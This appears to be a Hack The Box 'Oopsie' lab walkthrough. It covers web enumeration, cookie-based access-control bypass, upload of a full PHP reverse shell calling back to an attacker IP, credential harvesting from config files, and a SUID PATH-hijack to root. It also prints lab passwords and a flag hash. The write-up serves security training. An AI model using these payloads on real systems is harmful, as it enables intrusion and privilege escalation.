HTB Oopsie
1Initial Recon
- Set the target IP to avoid retyping. Ping the box, then run the initial
nmapscan. - Why
nmap -sC -sV
- -sC is the default NSE (Nmap Scripting Engine) script set. When it sees an open port, it runs standard scripts against services relevant to that port to reveal additional details. This includes SMB security mode, SSH host keys, SSL/TLS certificate details, and more. - -sV runs service version detection. Nmap probes the open port to find out what service is actually listening there, along with version info to help you decide what tools to use next or what weaknesses might exist.
# Set target IP boxip="10.129.x.x" # Initial ping ping $boxip -c 3 # Basic recon nmap -sC -sV $boxip
2Nmap Output
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-22 10:45 -0400 Nmap scan report for 10.129.95.191 Host is up (0.070s latency). Not shown: 998 closed tcp ports (reset) PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA) | 256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA) |_ 256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519) 80/tcp open http Apache httpd 2.4.29 ((Ubuntu)) |_http-server-header: Apache/2.4.29 (Ubuntu) |_http-title: Welcome Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 11.51 seconds
3Findings
### Findings Part 1 - Open Ports and HTTP Clues
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3- could be useful after obtaining credentials later in the attack chain.80/tcp open http Apache httpd 2.4.29 (Ubuntu)- primary public attack surface. It is not up to date; the latest version is 2.4.66.
Since there is a public-facing web server, use cURL to collect raw headers and content. This can reveal banners, redirects, cookies, internal naming, and hidden application hints.
# Grab headers and page content curl -i http://$boxip
HTTP/1.1 200 OK- the web page is online and responding to requests.Server: Apache/2.4.29 (Ubuntu)- this confirms the same server version result from the Nmap scan.Content-Type: text/html; charset=UTF-8- the web page is serving standard HTML instead of being something like a file download page.

After visiting the actual web page in Firefox:
- The site presents itself as MegaCorp Automotive.
- The page references static directories such as
/css,/themes,/images, and/js. - The footer exposes
admin@megacorp.com. - The page states that users must log in to access the actual service.
After looking through the full HTTP response, curl -i "http://$boxip" | tail reveals a critical insight: two URLs that might come in handy later:
<script src="/cdn-cgi/login/script.js"></script> <script src="/js/index.js"></script>

### Findings Part 2 - Directory Discovery
The login portal is known. Continue with directory and file discovery using two common tools:
- Gobuster - answers "what obvious directories are here?"
# Directory and file discovery gobuster dir -u http://$boxip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
dirselects Gobuster's directory and file enumeration mode.-usets the target URL to scan.-wprovides the wordlist file containing the paths Gobuster will test.

images (Status: 301) themes (Status: 301) uploads (Status: 301) css (Status: 301) js (Status: 301) fonts (Status: 301)
Most relevant is uploads. This indicates application functionality beyond a static page.
- ffuf can better answer "how does the web application respond when I do this?"
ffuf -u http://$boxip/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -mc 200,301,302,403
-usets the target URL and marksFUZZas the position where each wordlist entry will be inserted.-wprovides the wordlist file thatffufwill iterate through.-mcmeans "match codes" and tellsffufto show only responses with status codes200,301,302, or403.

themes [Status: 301 ...] uploads [Status: 301 ...] css [Status: 301 ...] images [Status: 301 ...] js [Status: 301 ...] fonts [Status: 301 ...]
- Same pages as the Gobuster results. Continue.
### Findings Part 3 - Web Misconfiguration Checks
We have /cdn-cgi/login/script.js and /uploads/. Run nikto to check common web misconfigurations.
- nikto is a long-standing web scanner focused on common misconfigurations, weak hardening, known files, and odd server behavior.
nikto -h http://$boxip -C all
-hsets the target.-C allchecks all CGI (Common Gateway Interface) directory possibilities.
Results:
+ Apache/2.4.29 appears to be outdated + /images: IP address found in the 'location' header. The IP is "127.0.1.1" + Suggested security header missing: content-security-policy + Suggested security header missing: permissions-policy + Suggested security header missing: x-content-type-options + Suggested security header missing: referrer-policy + Suggested security header missing: strict-transport-security + Web Server returns a valid response with junk HTTP methods which may cause false positives
- We know this version of Apache is outdated from our earlier Nmap scan.
127.0.1.1is commonly seen on Ubuntu systems as a hostname mapping.- Missing headers indicate weak browser side hardening.
This is typical for an unencrypted web application. Move to SSH enumeration.
nmap -p22 --script ssh-hostkey,ssh2-enum-algos "$boxip"
-p22limits the scan to SSH.ssh-hostkeyextracts SSH host key fingerprints.ssh-enum-algosis an NSE script that asks the server which SSH version 2 algorithm it supports.
- No clear cryptographic weakness exists here. Moving on.
### Findings Part 4 - Expanded Enumeration
The login page appeared in HTTP response data but not in initial Gobuster output. Re-run Gobuster with extension expansion.
gobuster dir \ -u http://$boxip \ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \ -x php,txt,html
-x php,txt,htmlexpands guesses into names such as:
- login.php - index.php - notes.txt

### Findings Part 5 - Guest Access and Broken Authorization
First checkpoint question:
Q1 - What kind of tool can intercept web traffic? Answer: proxy
Command-line and browser recon established initial paths. Move to Burp Suite for *spidering* to discover application-referenced endpoints.

There's that cdn-cgi/login URL again.
After visiting the web page we are presented with a login portal which contains an option that states Login as Guest. After performing a guest login and attempting to access the Uploads page from the menu, we are met with a message that says This action require super admin rights.

Q2 - What is the path to the directory on the web server that returns a login page? Answer: cdn-cgi/login
Q3 - What can be modified in Firefox to access the upload page? Answer: cookie

Guest session cookie data is visible in browser developer tools. If the cookie contains client-trusted authorization state, modifying it can grant access to the Uploads portal.
Context note: this behavior maps to broken access control. Changing client-controlled identifiers should not grant higher privileges without server-side authorization checks.
Burp Suite has uncovered the URL portion which designates the user session:

Attempting to modify the URL directly:
http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1
Successfully reveals Access ID 34322 for admin.
Q4 - What is the access ID of the admin user? Answer: 34322
### Findings Part 6 - Upload Functionality and Foothold
Back in browser developer tools, we can edit the guest session ID with the admin access ID and then attempt to access http://10.129.95.191/cdn-cgi/login/admin.php?content=uploads.

Uploads page is now accessible. Testing it out by uploading a text file containing the word Test produces the success message The file Test.txt has been uploaded.

Q5 - After uploading a file, in which directory does it appear on the server? Answer: /uploads
The answer above was visible in earlier Gobuster output. Next, use upload functionality to deliver a PHP reverse shell that connects back to the attacker and enables remote command execution. Source script: BlackArch php-reverse-shell.php.
<?php
// Minimal reverse-shell stub for note-taking.
// For full version, see: http://pentestmonkey.net/tools/php-reverse-shell
set_time_limit(0);
$ip = '10.10.15.134'; // CHANGE THIS (your tun0 IP)
$port = 4444; // CHANGE THIS
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
die("$errstr ($errno)");
}
$descriptorspec = array(
0 => array("pipe", "r"),
1 => array("pipe", "w"),
2 => array("pipe", "w")
);
$process = proc_open('/bin/sh -i', $descriptorspec, $pipes);
if (!is_resource($process)) {
die("ERROR: Can't spawn shell");
}
while (!feof($sock)) {
$input = fread($sock, 1400);
fwrite($pipes[0], $input);
fwrite($sock, fread($pipes[1], 1400));
fwrite($sock, fread($pipes[2], 1400));
}
fclose($sock);
proc_close($process);
?>
Set the script to the attacker tun0 IP and listening port, then start a netcat listener:
# On attacker machine # Modify the script using the tun0 IP address and desired netcat port ip a | grep 'tun0' # Start the netcat listener nc -lvnp 4444
Upload the file using the web page user interface.

After upload, check the netcat listener. Reverse shell confirmed.

### Findings Part 7 - Post-Exploitation and Privilege Escalation
Enumerate directories. Under /var/www/html/, the /cdn-cgi/login path contains db.php.
Q6 - Which file contains the password shared with user robert? Answer: db.php

$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
With robert credentials recovered, perform an additional credential check:
# Search the /cdn-cgi/login folder for password grep -R -i pass .
Result:
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!") <input type="password" name="password" placeholder="Password" />
Two passwords are now available. In /home/, locate user.txt.
$ cat user.txt f2c74ee8db7983851ab2a96a44eb7981
To authenticate as robert, first upgrade the shell to interactive mode.
# Make shell interactive
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Login as robert with password from db.php
su robert
# Password: M3g4C0rpUs3r!
# Check user, location and permissions
whoami
ls
id
robert belongs to the bugtracker group.

Q7 - Which executable uses the option -group bugtracker to identify files owned by the bugtracker group? Answer: find
# Hides noisy 'permission denied' errors find / -type f -group bugtracker 2>/dev/null

Run bugtracker and enter test value 1:
------------------ : EV Bug Tracker : ------------------ Provide Bug ID: 1 1 --------------- Binary package hint: ev-engine-lib Version: 3.3.3-1 Reproduce: When loading library in firmware it seems to be crashed What you expected to happen: Synchronized browsing to be enabled since it is enabled for that site. What happened instead: Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
Inspect the binary permissions and type.
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
Result:
-rwsr-xr-- 1 root bugtracker 8792 Jan 25 2020 /usr/bin/bugtracker /usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
Q8 - Regardless of who starts bugtracker, which user's privileges does it run with? Answer: root
- Finding:
rwsfor the owner triplet (rwxposition replaced bys). - Interpretation: SUID means Set User ID (often written SetUID). On an executable, it instructs Linux to run the program with the effective user ID of the file owner. Here, that owner is
root, so execution context is elevated to root privileges.
Q9 - What does SUID stand for? Answer: Set User ID
Running the file again and entering an unexpected value of 1337 produces this output:
------------------ : EV Bug Tracker : ------------------ Provide Bug ID: 1337 1337 --------------- cat: /root/reports/1337: No such file or directory
The insecurely called executable is cat. It appears to be invoked without an absolute path, enabling PATH hijack in this SUID context.
Q10 - What is the name of the executable that is called in an insecure manner? Answer: cat
# Move to a writable location where we can drop a fake executable. cd /tmp # Create a fake `cat` that spawns a preserved-privilege shell. printf '#!/bin/bash\n/bin/bash -p\n' > cat # Make the fake `cat` executable. chmod +x cat # Prepend /tmp so our fake `cat` is resolved before /bin/cat. export PATH=/tmp:$PATH # Run the SUID binary so it invokes our fake `cat` as root. /usr/bin/bugtracker
How this works:
printf '#!/bin/bash\n/bin/bash -p\n' > catwrites a two-line shell script into a file namedcatin the current directory.- The first line,
#!/bin/bash, is the shebang. It tells the kernel to execute this file with Bash when the file is launched as a program. - The second line,
/bin/bash -p, starts Bash in privileged mode. The-pflag matters because it tells Bash to preserve the effective UID and GID it inherited instead of dropping them. - Because
bugtrackeris SUID-root and appears to invokecatwithout an absolute path, command lookup follows the currentPATH. - After
export PATH=/tmp:$PATH, the shell resolves/tmp/catbefore/bin/cat, so the attacker-controlled script runs in place of the real utility. - Since the calling process has effective root privileges, and the replacement script immediately runs
bash -p, the resulting shell retains those elevated privileges.
